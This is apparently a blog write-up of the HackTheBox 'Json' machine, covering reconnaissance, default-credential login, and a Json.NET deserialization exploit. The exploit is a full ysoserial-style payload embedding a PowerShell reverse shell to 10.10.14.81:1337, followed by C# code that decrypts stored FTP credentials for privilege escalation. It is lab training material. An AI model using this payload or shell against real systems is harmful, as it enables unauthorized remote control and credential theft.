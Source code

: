 ```yaml
---
title: "Json - HackTheBox"
date: "2020-02-15"
tags: []
---
```


As usual, let's start with a port scan:
```
$ nmap -A -T4 10.10.10.158
Starting Nmap 7.80 ( https://nmap.org ) at 2020-02-16 10:11 EST
Nmap scan report for 10.10.10.158
Host is up (0.060s latency).
Not shown: 988 closed ports
PORT      STATE SERVICE      VERSION
21/tcp    open  ftp          FileZilla ftpd
| ftp-syst:
|_  SYST: UNIX emulated by FileZilla
80/tcp    open  http         Microsoft IIS httpd 8.5
| http-methods:
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/8.5
|_http-title: Json HTB
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49155/tcp open  msrpc        Microsoft Windows RPC
49156/tcp open  msrpc        Microsoft Windows RPC
49157/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 4h00m50s, deviation: 0s, median: 4h00m49s
|_nbstat: NetBIOS name: JSON, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:7a:c3 (VMware)
|_smb-os-discovery: ERROR: Script execution failed (use -d to debug)
| smb-security-mode:
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode:
|   2.02:
|_    Message signing enabled but not required
| smb2-time:
|   date: 2020-02-16T19:13:29
|_  start_date: 2020-02-16T04:04:18
```

The server is composed of a login page:
![](/images/hackthebox/json/login.png)

And trying common credentials we find out that `admin:admin` works, but a non
functional web app is behind the login, so there's nothing to do there. An
interesting thing is that a cookie named `OAuth2` gets set, and decoding it's
base64 value we get:

```
{
  "Id": 1,
  "UserName": "admin",
  "Password": "21232f297a57a5a743894a0e4a801fc3",
  "Name": "User Admin HTB",
  "Rol": "Administrator"
}
```

By intercepting the request with Burp we can see that the same value will be
sent in the Bearer HTTP header:
![](/images/hackthebox/json/bearer.png)

Modifying it to a random value will trigger an error:
![](/images/hackthebox/json/error.png)

Using a base64 valid value we get another error:
![](/images/hackthebox/json/json-error.png)

This time we get more information about the backend, it seems like it uses
Json.NET to deserialize the data.

We can use [ysoserial](https://github.com/pwntester/ysoserial.net) to generate
custom payloads to exploit this vulnerability, you can read more about it
[here](https://speakerdeck.com/pwntester/attacking-net-serialization).

As the command that I want to execute contains a lot of characters that needs to
be escaped, I crafted the payload manually by modifing the one found on the
Github page, here is it:

```
{
    '$type':'System.Windows.Data.ObjectDataProvider, PresentationFramework, Version=4.0.0.0, Culture=neutral, PublicKeyToken=31bf3856ad364e35',
    'MethodName':'Start',
    'MethodParameters':{
        '$type':'System.Collections.ArrayList, mscorlib, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089',
        '$values':['powershell','-nop -c "$client = New-Object System.Net.Sockets.TCPClient(\'10.10.14.81\',1337);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + \'PS \' + (pwd).Path + \'> \';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"']
    },
    'ObjectInstance':{'$type':'System.Diagnostics.Process, System, Version=4.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089'}
}
```

It's just a basic reverse shell for Powershell. Save it in a file and after
running a netcat listener, make the request with `curl
http://10.10.10.158/api/Account -H "Bearer: $(base64 -w 0 <filename>)"`.

```
$ rlwrap nc -lnvp 1337
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.10.10.158
Ncat: Connection from 10.10.10.158:50439.
PS C:\windows\system32\inetsrv> whoami
json\userpool
```

And we have a shell as `userpool`. Let's check if we can read the flag:
```
PS C:\windows\system32\inetsrv> Get-Acl C:\Users\userpool\Desktop\user.txt


    Directory: C:\Users\userpool\Desktop


Path                       Owner                      Access
----                       -----                      ------
user.txt                   JSON\userpool              NT AUTHORITY\SYSTEM Al...
```

## Privilege escalation

While inspecting the files on the drive, I found a curious one in `C:\Program
Files\Sync2Ftp\SyncLocation.exe.config`:
```
<?xml version="1.0" encoding="utf-8" ?>
<configuration>
  <appSettings>
    <add key="destinationFolder" value="ftp://localhost/"/>
    <add key="sourcefolder" value="C:\inetpub\wwwroot\jsonapp\Files"/>
    <add key="user" value="4as8gqENn26uTs9srvQLyg=="/>
    <add key="minute" value="30"/>
    <add key="password" value="oQ5iORgUrswNRsJKH9VaCw=="></add>
    <add key="SecurityKey" value="_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%"/>
  </appSettings>
  <startup>
    <supportedRuntime version="v4.0" sku=".NETFramework,Version=v4.7.2" />
  </startup>


</configuration>
```

It looks like we have some encrypted credentials. We can use
[dnSpy](https://github.com/0xd4d/dnSpy) to reverse the `SyncLocation.exe` file
and understand more about how it decrypts the credentials:
![](/images/hackthebox/json/dnspy.png)

Cool, easy and simple! Let's copy the code and modify it a bit:
```csharp
using System;
using System.Text;
using System.Security.Cryptography;
using System.Configuration;

public class Program {
    public static string Decrypt(string cipherString, bool useHashing)
    {
        byte[] array = Convert.FromBase64String(cipherString);
        AppSettingsReader appSettingsReader = new AppSettingsReader();
        string s = "_5TL#+GWWFv6pfT3!GXw7D86pkRRTv+$$tk^cL5hdU%";
        byte[] key;
        if (useHashing)
        {
            MD5CryptoServiceProvider md5CryptoServiceProvider = new MD5CryptoServiceProvider();
            key = md5CryptoServiceProvider.ComputeHash(Encoding.UTF8.GetBytes(s));
            md5CryptoServiceProvider.Clear();
        }
        else
        {
            key = Encoding.UTF8.GetBytes(s);
        }
        TripleDESCryptoServiceProvider tripleDESCryptoServiceProvider = new TripleDESCryptoServiceProvider();
        tripleDESCryptoServiceProvider.Key = key;
        tripleDESCryptoServiceProvider.Mode = CipherMode.ECB;
        tripleDESCryptoServiceProvider.Padding = PaddingMode.PKCS7;
        ICryptoTransform cryptoTransform = tripleDESCryptoServiceProvider.CreateDecryptor();
        byte[] bytes = cryptoTransform.TransformFinalBlock(array, 0, array.Length);
        tripleDESCryptoServiceProvider.Clear();
        return Encoding.UTF8.GetString(bytes);
    }

    public static void Main()
    {
        Console.WriteLine(Decrypt("4as8gqENn26uTs9srvQLyg==", true));
        Console.WriteLine(Decrypt("oQ5iORgUrswNRsJKH9VaCw==", true));
    }
}
```

We can use an online compile like [dotnetfiddle](https://dotnetfiddle.net/) and
after running it we get the credentials:
```
superadmin
funnyhtb
```

Using them to login into the FTP server allows us to read the flag:
![](/images/hackthebox/json/root.png)

Thanks for reading!
